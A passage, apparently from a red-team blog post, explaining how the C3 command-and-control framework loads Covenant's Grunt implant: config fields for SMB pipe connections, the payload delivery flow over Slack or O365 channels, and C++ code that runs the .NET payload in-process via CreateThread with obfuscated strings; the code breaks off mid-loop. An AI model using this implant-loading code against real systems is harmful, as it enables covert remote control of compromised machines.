 ```c++
				"description": "Jitter"
			},
			{
				"type": "int32",
				"min": 10,
				"defaultValue" : 30,
				"name": "Connect Attempts",
				"description": "Number of attempts to connect to SMB Pipe"
			}
		]
	},
	"commands": []
}
)";
}
```

**Stage 2 - Grunt Execution**

As Covenant is a .NET framework, this process is far more involved than what occurs with CobaltStrike's beacons. For brevity only key points will be described.

First and foremost, when the user submits the form above and a payload is generated, this is eventually passed to the Relay through whatever channel it is communicating over, which in-turn calls the appropriate peripheral's constructor. The flow shown below may describe this best:

1. User submits AddPeripheralGrunt form from a Relay command centre

2. C3 Gateway calls Covenant's `GeneratePayload` method

3. C3 Gateway sends generated payload to the relay over Slack/O365 or whatever channel has been setup

4. Relay calls the constructor defined in Grunt.cpp.

The constructor for a Grunt is slightly complex, essentially we execute the .NET assembly in our own CLR instance running in a seperate thread. Note the `arguments.Read` call below, these are passed in the same order they are presented in the web form.

```c++
FSecure::C3::Interfaces::Peripherals::Grunt::Grunt(ByteView arguments)
{

	auto [pipeName, payload, connectAttempts] = arguments.Read<std::string, ByteVector, uint32_t>();
	
	BYTE *x = (BYTE *)payload.data();
	SIZE_T len = payload.size();

	//Setup the arguments to run the .NET assembly in a seperate thread.
	namespace SEH = FSecure::WinTools::StructuredExceptionHandling;
	SEH::gruntArgs args;
	args.gruntStager = x;
	args.len = len;
	args.func = RuntimeV4Host;


	// Inject the payload stage into the current process.
	if (!CreateThread(NULL, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(SEH::SehWrapperCov), &args, 0, nullptr))
		throw std::runtime_error{ OBF("Couldn't run payload: ") + std::to_string(GetLastError()) + OBF(".") };

	std::this_thread::sleep_for(std::chrono::milliseconds{ 30 }); // Give Grunt thread time to start pipe.
	for (int i = 0; i < connectAttempts; i++)
	{
```